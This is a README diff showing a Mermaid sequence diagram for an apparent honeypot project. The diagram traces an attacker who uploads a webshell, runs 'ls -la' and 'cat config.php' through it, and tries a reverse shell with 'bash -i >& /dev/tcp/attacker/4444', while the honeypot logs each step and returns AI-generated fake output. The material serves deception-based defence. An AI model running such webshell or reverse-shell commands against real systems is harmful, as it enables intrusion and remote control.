

Before and after one commit to Mark-Meka/Maze-Myth-Dynamic-Honeypot: the third of 7 diagrams in README.md, drawn with Mermaid. The commit also changed other lines of this file and 41 other files, not shown here.

````diff
--- a/README.md
+++ b/README.md
@@ -78,40 +79,49 @@
 ```mermaid
 sequenceDiagram
     actor A as 🎭 Attacker
+    participant P as Proxy
     participant H as Honeypot (8001)
+    participant R as Real App (8080)
     participant Intel as AttackerIntel
     participant RAG as Shell RAG Engine
     participant LLM as Gemini AI
 
-    A->>H: GET /clientportal/support/attachments.php
+    A->>P: GET /clientportal/support/attachments.php
+    P->>Intel: evaluate_ip_risk(A)
+    alt high risk or suspicious
+        P->>H: forward request to honeypot
+    else low risk
+        P->>R: forward request to decoy real app
+    end
+
     H->>Intel: record_form_view(ip)
     H-->>A: Realistic PHP form (Apache/2.4.54 + PHP/7.4.33 headers)
 
     Note over A: Uploads shell.php containing webshell code
 
     A->>H: POST /clientportal/support/attachments.php
     H->>Intel: record_upload(ip, filename, bytes)
     Note over H: 13-pattern webshell check + 18-tag file analysis<br/>Register in _shell_registry — NO disk write
     H-->>A: ✅ Upload success + /uploads/shell.php URL
 
     A->>H: GET /uploads/shell.php?cmd=ls -la
     H->>Intel: record_webshell_access(ip, cmd)
     H->>RAG: resolve_shell_command("ls -la")
     RAG->>LLM: Generate realistic Apache2 directory listing
     Note over LLM: Full AI-generated output with realistic<br/>filenames, permissions, timestamps
     LLM-->>H: "drwxr-xr-x 3 www-data www-data..."
     H-->>A: Realistic directory listing
 
     A->>H: GET /uploads/shell.php?cmd=cat config.php
     H->>RAG: resolve_shell_command("cat config.php")
     RAG->>LLM: Generate realistic PHP banking app source
     LLM-->>H: "<?php $db_host = 'db-primary-1.internal'..."
     H-->>A: Realistic PHP credentials file
 
     Note over A: Tries reverse shell
 
     A->>H: GET /uploads/shell.php?cmd=bash -i >& /dev/tcp/attacker/4444
     H->>Intel: record_command → phase=POST_EXPLOIT risk=95
     Note over H: Dynamic handler: random 1.5–3s delay
     H-->>A: "bash: connect: Connection timed out"
 ```
````
